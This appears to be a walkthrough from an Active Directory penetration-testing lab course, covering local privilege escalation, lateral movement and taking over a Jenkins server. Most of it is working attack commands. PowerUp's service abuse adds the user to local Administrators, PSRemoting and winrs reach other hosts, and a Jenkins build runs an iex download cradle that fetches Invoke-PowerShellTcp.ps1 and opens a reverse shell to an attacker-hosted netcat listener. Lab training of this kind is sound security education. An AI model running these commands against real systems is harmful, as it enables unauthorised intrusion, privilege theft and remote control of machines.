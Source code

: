 # 05 - Learning Objective

* Exploit a service on dcorp-studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentx has local administrative access.
* Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

We can use the **Powerup** from PowerSploit module (or WinPEAS) to check for any privilege escalation path:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

Let's use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group:

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
</strong>&#x3C;# Expected output
ServiceAbused Command
------------- -------
AbyssWebServer net localgroup Administrators dcorp\studentx /add
#>
</code></pre>

{% hint style="warning" %}
Remember to logoff and logon again to have local administrator privileges!
{% endhint %}

Identify a machine in the domain where studentx has local administrative access use **Find-PSRemotingLocalAdminAccess.ps1**:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

So, studentx has administrative access on dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user:

```powershell
winrs -r:dcorp-adminsrv cmd
set username
set computername
hostname
```

We can also use PowerShell Remoting:

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$env:username
hostname
```

In Jenkins console we can add builds using Invoke-PowerShellTcp.ps1 reverse tcp shell hosted using hfs.exe:

<pre class="language-powershell"><code class="lang-powershell">#1 from attacker client
c:\AD\Tools\hfs.exe C:\AD\Tools\Invoke-PowerShellTcp.ps1
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
#Remember to add a firewall exception

#From Jenkis console
#Option1
<strong>powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
</strong>#Option2
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
$env:username
$env:computername
ipconfig
</code></pre>

